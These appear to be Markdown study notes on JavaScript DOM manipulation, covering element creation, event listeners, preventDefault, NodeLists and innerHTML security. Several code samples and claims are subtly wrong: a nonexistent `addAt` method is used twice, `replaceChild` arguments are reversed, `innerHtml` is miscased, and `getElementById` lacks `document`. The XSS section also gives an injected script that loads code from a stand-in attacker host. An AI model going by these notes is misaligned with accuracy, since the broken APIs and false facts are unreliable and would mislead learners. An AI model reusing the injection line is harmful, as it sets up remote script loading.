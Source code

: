 # DOM manipulation

## How can you use JavaScript to create an HTML element and then add it to your webpage?

To create an HTML elelment in JS we can use the function `Document.createElement()`

    var button = document.createElement('BUTTON');

and to create a Text in JS we use the function `Document.createTextNode()`

    var text = document.createTextNode("CLICK ME");

To append a text to an element in JS we use the function `appendChild()`

	button.appendChild(text);

To replace an element in JS

 - `target.replaceWith(newElement);` (ES5+)
 - `target.parentNode.replaceChild(target, newElement)`

## `onClick()` vs `handler`

Using `addEventListener` allows us to add unlimited events.
	
    <button id="btnTalker" onclick="say('Hi from dom\n')" onclick="say('Hi from dom,, again\n')"></button>

> `Hi from dom,, again`

	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js\n')});
	getElementById('btnTalker').addEventListener('click', function() {say('Hi from js,, again\n')});

> `Hi from js`
> `Hi from js,, again`

## How would you add a `<li>` element to the start of a `<ul>`?

	ulElement.childNodes.addAt(0, liElement);

HTML events are **things** that happen to HTML elements.  
When JavaScript is used in HTML pages, JavaScript can **react** on these events.

An HTML event can be something the browser does, or something a user does.

Some examples of HTML events:

 - An HTML web page has finished loading.
 - An HTML input field was changed.
 - An HTML button was clicked.

## What does `event.preventDefault()` do and why might you use it?

Some HTML elements has built-in actions

 - `<form>` reloads the page when `sumbit` action is fired.
 - `<a>` navigates to a link when `click` action is fired.

`event.preventDefault()` disables the built-in actions.

## What is a NodeList? How is it different from an Array?

A NodeList is a collection of document nodes.

`NodeList`s are live lists, meaning that if elements are removed or added to the DOM, the list updates automatically.

	var nodeList = document.getElementsByClassName('myClassName'); //returns a nodeList
	var arr = [];
	for(let i = 0; i<nodeList.length;i++)
		arr.push(nodeList[i]);                                     //returns an array
	nodeList[0].innerHtml = '<b>This is changes</b>';              //Changes DOM
	arr[0].innerHtml = '<b>This is changes</b>';                   //Doesn't affect DOM

## Security concerns around `Element.innerHTML`. What to use instead?

Using `innerHTML` may leed to `Cross-site scripting (XSS)`.

Consider the following input of an `innerHTML` statement is a comment in your online blog:

    let x = document.createElement('script');
    x.src = 'http://hacker-website.com/malicious-script.js';
    document.childNodes.addAt(0, src);
    alert('you are hacked');

This may lead to run harmful scripts on your device.

### How to avoid?

You can use `innerText` instead, or you can use

    content = content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
    el.innerHTML = content;
